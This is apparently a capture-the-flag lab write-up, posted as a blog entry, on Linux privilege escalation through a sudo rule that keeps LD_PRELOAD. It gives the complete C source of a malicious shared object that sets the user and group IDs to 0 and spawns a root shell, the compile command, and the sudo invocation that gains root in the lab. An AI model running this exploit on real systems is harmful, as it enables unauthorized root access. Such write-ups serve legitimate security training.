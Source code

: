 ```yaml
---
layout: post
title: "PrivEsc abusing Sudo (LD_PRELOAD)"
date: 2020-04-17 00:22:00 -0000
categories: jekyll
permalink: /ctflive/sudo
tags: [privesc, LD_PRELOAD, linux]

---
```


    noobuser@attackdefense:~$ id
    uid=999(noobuser) gid=999(noobuser) groups=999(noobuser)
    
    noobuser@attackdefense:~$ sudo -l
    Matching Defaults entries for noobuser on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
        env_keep+=LD_PRELOAD
    User noobuser may run the following commands on attackdefense:
        (root) NOPASSWD: /usr/sbin/apache2

then write C program in the writtable directory such as /var/tmp , /dev/shm and /tmp directory and save it to LD_PRELOAD_privesc.c

> #include <stdio.h>

> #include <sys/types.h>

> #include <stdlib.h> 

> void _init() { 

> unsetenv("LD_PRELOAD"); 

> setgid(0); 

> setuid(0); 

> system("/bin/bash"); 

> }

then compile the file and generate the object file...

    noobuser@attackdefense:~$ /usr/bin/gcc -fPIC -shared -o LD_PRELOAD_privesc.so LD_PRELOAD_privesc.c -nostartfiles
    noobuser@attackdefense:~$ sudo LD_PRELOAD=/tmp/LD_PRELOAD_privesc.so /usr/sbin/apache2
    
    root@attackdefense:/tmp# id
    uid=0(root) gid=0(root) groups=0(root)
    
    root@attackdefense:/tmp# find /root/ type f -name flag
    /root/flag
    find: 'type': No such file or directory
    find: 'f': No such file or directory
    
    root@attackdefense:/tmp# cat /root/flag
    368b21993<snip>1ac697cc83
    
    root@attackdefense:/tmp# yeayy

